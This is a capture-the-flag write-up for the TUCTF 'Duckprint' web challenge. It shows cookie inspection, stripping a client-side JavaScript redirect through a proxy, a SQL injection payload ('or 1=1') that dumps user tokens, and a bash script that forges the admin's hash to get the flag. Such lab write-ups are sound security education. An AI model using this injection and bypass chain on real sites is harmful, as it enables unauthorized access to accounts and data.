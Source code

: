 ### Solved by rasta_mouse & historypeats

Duckprint was a 100 point Web Challenge

After navigating to the challenge [URL](http://130.211.242.26:31337), we see there are 3 main pages:

*Register
*Generate
*Validate

#### Register

This is a simple page where we can register a new account.  When you do this, a cookie is assigned:
`duck_cookie=%7B%22username%22%3A%22rastamouse%22%2C%22admin%22%3A0%7D` --> `duck_cookie={"username":"rastamouse","admin":0}`

#### Generate

This page allows us to generate a 'duck print' string for any user by entering a username.  The page is nice enough to reveal how this string is generated:
`Duck Print format: sha256(b64(username) + "." + b64(cookie) + "." + b64(token))`

By putting `rastamouse` into the box, I get the following result:

```
Username:Admin:Token

rastamouse:0:Urczv4Mb
Generated Duck Print for rastamouse: e003648729932cf96d2bb0987f9b81872eaed0290873a35c17ee8fddded8381e
```

#### Validate

This page requires an admin cookie to access, however we can bypass using Burp (other interception proxies are available :)).  The server provides the following response:

```
<form id='validate' action='validate.php' method='post'
    accept-charset='UTF-8'>
<fieldset >
<legend>Validate Admin Duck Print</legend>

<input type='hidden' name='submitted' id='submitted' value='1'/>

<label for='duckprint'>Duck Print:</label>
<input type='text' name='duckprint' id='duckprint' maxlength="100" />
<input type='submit' name='submit' value='Submit' />

</fieldset>
</form>
<script language="javascript">alert("Only the admin can access this page!");location.href = "http://130.211.242.26:31337/generate.php";</script>
</body>
</html>
```

By removing the javascript in the proxy, a browser will render the page.  By putting some junk in the duckprint search box, we get the error `'That is not DuckDuckGoose's Duck Print!'`

Based on that information disclosure, we can assume that `DuckDuckGoose` is the admin and that his cookie will likely be `{"username":"DuckDuckGoose","admin":1}`.  However, we can't use the `Generate` page to get his token:  `Cannot generate admin's duck print!`

historypeats found that there was some SQLi in the generate field - there is an HTML comment containing the query being used which kinda hinted to this:  `<!-- $query = "SELECT * FROM users WHERE username ='" . $username . "'"; -->`

You can use this to force the application to display the tokens of all users with the following input:

`duckduckgoose ' or 1=1;-- -`

Which gives you:

`DuckDuckGoose:1:d4rkw1ng`

Now we have everything required to create his duck print.  I used some pretty lame bash for this.

```
#!/bin/bash

u='DuckDuckGoose'
c='{"username":"DuckDuckGoose","admin":1}'
t='d4rkw1ng'

b64_u=`echo -en $u | base64`
b64_c=`echo -en $c | base64`
b64_t=`echo -en $t | base64`

s=`echo -en $b64_u.$b64_c.$b64_t`

duck=`echo -en $s | sha256sum`

echo $duck
```

Which produces:  `d626290acdc6a948a5f2b5c2850730f4e4b2bdbd36da01226a192985d20d787d`

Feed this value into the `Validate` page, and we get our flag:

```
TUCTF{Quacky_McQuackerface}
```